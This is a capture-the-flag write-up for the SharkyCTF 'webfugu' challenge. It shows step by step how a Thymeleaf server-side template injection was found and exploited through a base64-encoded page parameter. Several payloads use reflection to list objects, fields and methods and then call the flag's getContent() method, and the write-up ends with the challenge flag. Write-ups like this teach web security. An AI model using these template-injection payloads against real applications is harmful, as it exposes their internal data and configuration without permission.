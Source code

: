 # Problem Statement

A new site listing the different species of fugu fish has appeared on the net. Used by many researchers, it is nevertheless vulnerable. Find the vulnerability and exploit it to recover some of the website configuration.

Creator: MasterFox

http://webfugu.sharkyctf.xyz


# Solution

Need sleep, will write-up later. Short story (keywords/mnemonics): thymeleaf, java, reflection, base64

Load up the site press F12 to bring up dev tools. Hit refresh. Boom, something interesting:

![](../Images/webfugu_1.PNG)

Let's see the full content: http://webfugu.sharkyctf.xyz/process?page=PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI%2BIDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg%2BRGlzY292ZXJ5IHllYXI8L3RoPiA8dGg%2BRGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ%2BIDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ%2BIDwvdHI%2BIDwvdGFibGU%2BIDwvZGl2PiAgICAgIAo=

So, page is

    PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI%2BIDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg%2BRGlzY292ZXJ5IHllYXI8L3RoPiA8dGg%2BRGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ%2BIDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ%2BIDwvdHI%2BIDwvdGFibGU%2BIDwvZGl2PiAgICAgIAo=
    
This looks like a Base64 encoding, but with a twist (notice the %2 and probably others). So I suspect it's a url encoding of a base64 encoding, if that makes sense. Let's see (use any online or commandline tool)

After url decoding:

    PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI+IDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg+RGlzY292ZXJ5IHllYXI8L3RoPiA8dGg+RGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ+IDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ+IDwvdHI+IDwvdGFibGU+IDwvZGl2PiAgICAgIAo=
    
Much better, let's base64 decode:

    <div> <table border="1"> <tr> <th>Name</th> <th>Discovery year</th> <th>Discoverer name</th> </tr> <tr th:each ="fish : ${fishes}"> <td th:utext="${fish.name}">...</td> <td th:utext="${fish.discoveryYear}">...</td> <td th:utext="${fish.discovererName}">...</td> </tr> </table> </div>
    
Hard to read, let's pretty print (we'll base64+url encode either way, it's better to see the structure easier):

    <div>
       <table border="1">
          <tr>
             <th>Name</th>
             <th>Discovery year</th>
             <th>Discoverer name</th>
          </tr>
          <tr th:each ="fish : ${fishes}">
             <td th:utext="${fish.name}">...</td>
             <td th:utext="${fish.discoveryYear}">...</td>
             <td th:utext="${fish.discovererName}">...</td>
          </tr>
      </table>
    </div>

OCD satisfied. On to WTH is this? th:each? I've never seen that. Let's Google:

![](../Images/webfugu_2.PNG)

Thymeleaf. Hmm Thymeleaf

    Thymeleaf is a modern server-side Java template engine for both web and standalone environments. Thymeleaf's main goal is to bring elegant
    
Cool, so Thymeleaf is our new friend who will do our work for us. On to StackOverflow:

![](../Images/webfugu_3.PNG)

Click first link, see a payload vaguely similar in structure to our own html:

    <table>
        <tr th:each="var : ${#vars.getVariableNames()}">
            <td th:text="${var}"></td>
            <td th:text="${#vars.getVariable(var)}"></td>
        </tr>
        ....
    </table>

Let's try to make a payload (in the actual CTF run the first tests were to put arbitrary expressions in like ${3*7} to see if they get executed.)

    <div>
       <table border="1">
          <tr>
             <th>Name</th>
             <th>Discovery year</th>
             <th>Discoverer name</th>
          </tr>
          <tr th:each ="var : ${#vars.getVariableNames()}">
             <td th:utext="${var}"></td>
             <td th:utext="${#vars.getVariable(var)}"></td>
             <td th:utext="${3*2}"></td>
          </tr>
      </table>
    </div>

One base64 encode + url encode later (paranoia perhaps urlencode is no longer needed, since we got rid of some '...' strings in the xml), we get a payload (not pasting the string result, as that can vary because of spacing). We then apply that payload to:

    http://webfugu.sharkyctf.xyz/process?page=PGRpdj4K.....
    
![](../Images/webfugu_4.PNG)

Last thing I wanted to see:"REDACTED", the dread of any CTF-er. :):
    
    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="field: ${fishes[0].class.declaredFields}">
         <td th:utext="${field.name}"></td>
         <td th:utext="${2*2}"></td>
         <td th:utext="${3*3}"></td>
      </tr>
    </table>
    </div>

Which got us:

![](../Images/webfugu_5.PNG)

    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="field: ${flag.class.declaredFields}">
         <td th:utext="${field.name}"></td>
         <td th:utext="${field}"></td>
         <td th:utext="${3*3}"></td>
      </tr>
    </table>
    </div>
 
Which gets us: 
 
 ![](../Images/webfugu_6.PNG)
    
Aargh! A private field. I spent the next hours fixated on the fact that it's private and trying to find a way to reflect into it (perhaps setting "flag.class.getField("content").setAccessible(true)" before attempting to call flag.class.getField("content").getValue(flag)". If confused, read up on Java Reflection. And I fixated and fixated and fixated.

Luckily, at some point a friend of mine (randomly talking to on phone), who's more into Java, asks me: "what about methods?"

    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="method: ${flag.class.getMethods()}">
         <td th:utext="${method.name}"></td>
         <td th:utext="${method}"></td>
         <td th:utext="${3*3}"></td>
      </tr>
    </table>
    </div>
    
Which gets us:

 ![](../Images/webfugu_7.PNG)

Ha! there is a method called getContent() for the flag class. Overthinker that I am I tried to reflect more :) field.class.getMethod("getContent", flag.class).invoke(flag) and other crazy shenanigans all ending in 500's.

But at some point, I stopped and realized the extent of my shortsightedness (and probably could have "guessed", if I had a Java background) as I suspected I could do what I'm about to do with the next payload. I wanted this payload so that when it was successful, I could see the flag multiple times, so I don't miss it :)

    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="method: ${flag.class.getMethods()}">
         <td th:utext="${flag.getContent()}"></td>
         <td th:utext="${flag.getContent()}"></td>
         <td th:utext="${flag.getContent()}"></td>
      </tr>
    </table>
    </div>

Wooop, there it iiis!

 ![](../Images/webfugu_8.PNG)

# Flag
shkCTF{w31rd_fishes_6ee9f7aabf6689c6684ad9fd9ffbae5a}
